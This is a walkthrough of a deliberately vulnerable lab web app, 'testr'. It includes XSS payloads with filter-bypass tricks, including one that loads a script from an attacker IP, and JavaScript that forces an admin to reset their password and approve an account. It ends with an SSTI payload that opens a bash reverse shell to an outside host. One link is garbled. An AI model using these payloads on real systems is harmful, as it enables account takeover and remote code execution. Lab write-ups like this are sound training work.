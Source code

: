 ## testr

https://github.com/bmdyy/testr

"Our admin will review your portfolio if you chose to include one." This probably indicates to XSS.

The apply request is this, but the XSS is not in website field.
```
name=Dudu&email=dudu%40gmail.com&website=Website%3A+%3Cscript+src%3Dhttp%3A%2F%2F10.10.14.2%2Ftest.js%3E%3C%2Fscript%3E&secret_phrase=SecretPhrase&password=123&password2=123
```

Enumerating directories:
```
gobuster dir -u http://172.17.0.2:5000 -w /usr/share/wordlists/dirb/big.txt -t 40 -x zip,bkp

/api                  (Status: 200) [Size: 5043]
/apply                (Status: 405) [Size: 153]
/approve              (Status: 405) [Size: 153]
/change_password      (Status: 405) [Size: 153]
/deny                 (Status: 405) [Size: 153]
/editor               (Status: 302) [Size: 197] [--> login]
/login                (Status: 200) [Size: 7192]
/logout               (Status: 302) [Size: 197] [--> login]
/reset
```

`/api` gives some information about the website and is vulnerable to xss on `q` parameter.
```
# Testing XSS
<img src=x o<scriptnerror=javajavascript:script:(function(){alert(1)})()>

# Testing XSS with Base64
<img src=x o<scriptnerror=javajavascript:script:eval(atob('YWxlcnQoMSk='))>
```

'atob' is used to decode base64 based on [these payloads](We can make the admin send `POST /change_secret_phrase` and `POST /change_password` to change its password.
).

We can make the admin send `POST /change_secret_phrase` and `POST /change_password` to change its password.

`change_secret_phase` required body:
```
{phrase, phrase2}
```

`change_password` required body:
```
{phrase, password, password2}
```

This would be the javascript file to do this process:
```js
let h = {'Content-Type':'application/x-www-form-urlencoded'};
	fetch('http://localhost:5000/change_secret_phrase',{
	  method:'POST',
	  headers:h,
	  body:'secret_phrase="test"&secret_phrase2="test"'
	}).then(r=>{
	  fetch('http://localhost:5000/change_password',{
        method:'POST',
	    headers:h,
	    body:'secret_phrase="test&password="senha123"&password2="senha123"'
	  });
	});
```

We can also create a user and make the admin approve our application on rout `POST /approve`
```js
let formData = new FormData();
	formData.append('email','dudu@gmail.com');
	fetch('http://localhost:5000/approve',{
	  method:'POST',
	  body:formData
	});
```

<br>

### SSTI - Command Injection
You can execute code putting the payload below:
```python
"".__class__.__mro__[1].__subclasses__()[425](['id'])

"".__class__.__mro__[1].__subclasses__()[425](['/bin/bash','-c','bash -i >& /dev/tcp/192.168.1.125/9000 0>&1'])
```
